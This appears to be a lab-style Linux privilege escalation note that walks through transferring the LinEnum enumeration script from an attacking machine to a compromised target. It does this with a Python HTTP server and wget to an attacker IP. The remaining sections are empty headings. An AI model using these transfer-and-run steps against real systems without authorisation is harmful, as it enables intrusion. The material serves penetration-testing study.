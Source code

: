 # Linux Privilege Escalation

## Enumeration

### LINENUM  

[Get Linenum](!https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)  

Gain access to the target machine

[Logged In](assets/Linux-PrivEsc-01-LinEnum-01.png)

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

[Python Server](assets/Linux-PrivEsc-01-LinEnum-02.png)  

On the target device, set up a location from where the script will run.  

[Target Locationls](assets/Linux-PrivEsc-01-LinEnum-03.png)  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

[wget LinEnum](assets/Linux-PrivEsc-01-LinEnum-04a.png)  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  




## SUID/GUID 

## Writeable /etc/passwd files

## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable